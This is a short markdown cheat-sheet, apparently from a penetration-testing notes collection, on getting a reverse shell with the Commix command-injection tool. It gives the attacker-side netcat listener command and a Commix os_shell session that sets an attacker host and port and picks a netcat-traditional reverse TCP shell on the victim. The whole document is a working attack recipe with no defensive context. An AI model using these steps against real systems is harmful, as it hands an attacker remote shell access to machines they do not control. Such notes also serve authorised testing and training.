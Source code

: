 Commix Reverse Shell
-------------------
On Attacker
-------------
````bash
nc -lvp 1234
````

On Victim
------------
```bash
commix(os_shell)
reverse_tcp
set LHOST 10.5.21.22
set LPORT 1234

---[ Reverse TCP shells ]---     
Type '1' to use a netcat reverse TCP shell.
Type '2' for other reverse TCP shells.

1

---[ Unix-like targets ]--- 
Type '1' to use the default Netcat on target host.
Type '2' to use Netcat for Busybox on target host.
Type '3' to use Netcat-Traditional on target host. 
Type '4' to use Netcat-Openbsd on target host. 

3
```
